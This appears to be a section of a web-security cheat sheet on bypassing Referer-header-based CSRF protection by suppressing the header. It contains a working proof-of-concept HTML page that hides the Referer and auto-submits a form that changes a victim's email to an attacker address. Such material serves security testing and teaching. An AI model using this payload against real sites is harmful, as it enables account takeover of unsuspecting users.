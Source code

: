 Some applications make use of the HTTP `Referer` header to attempt to defend against CSRF attacks, normally by verifying that the request originated from the application's own domain. The following are possible bypasses for the `Referer` header based CSRF protection.

#### Referer Header Omitted

Some applications validate the `Referer` header when it is present in requests but skip the validation if the header is omitted. The following code will drop the `referer` header.

```
<meta name="referrer" content="never">
```

PoC

```
<html>
    <body>
        <meta name="referrer" content="never">
        <form action="https://vulnerable-website.com/email/change" method="POST">
            <input type="hidden" name="email" value="pwned@evil-user.net" />
            <input type="hidden" name="csrf" value="WfF1szMUHhiokx9AHOfjRkE" />
        </form>
        <script>
            document.forms[0].submit();
        </script>
    </body>
</html>
```
